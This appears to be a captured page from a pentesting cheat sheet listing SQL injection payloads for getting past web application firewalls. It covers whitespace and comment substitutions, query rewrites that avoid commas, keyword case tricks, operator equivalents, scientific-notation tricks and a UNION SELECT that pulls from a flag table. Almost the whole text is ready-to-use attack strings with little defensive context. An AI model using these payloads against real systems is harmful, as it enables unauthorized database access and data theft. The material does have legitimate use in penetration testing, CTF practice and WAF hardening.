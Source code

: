 WAF Bypass

Initial bypasses from here
No spaces bypass

No Space (%20) - bypass using whitespace alternatives

?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--

No Whitespace - bypass using comments

?id=1/*comment*/and/**/1=1/**/--

No Whitespace - bypass using parenthesis

?id=(1)and(1)=(1)--

No commas bypass

No Comma - bypass using OFFSET, FROM and JOIN

LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d

Generic Bypasses

Blacklist using keywords - bypass using uppercase/lowercase

?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#

Blacklist using keywords case insensitive - bypass using an equivalent operator

AND   -> && -> %26%26
OR    -> || -> %7C%7C
=     -> LIKE,REGEXP,RLIKE, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING --> LIMIT X,1 -> group_concat(CASE(table_schema)When(database())Then(table_name)END) -> group_concat(if(table_schema=database(),table_name,null))

Scientific Notation WAF bypass

You can find a more in depth explaination of this trick in gosecure blog.
Basically you can use the scientific notation in unexpected ways for the WAF to bypass it:

-1' or 1.e(1) or '1'='1
-1' or 1337.1337e1 or '1'='1
' or 1.e('')=

Bypass Column Names Restriction

First of all, notice that if the original query and the table where you want to extract the flag from have the same amount of columns you might just do: 0 UNION SELECT * FROM flag
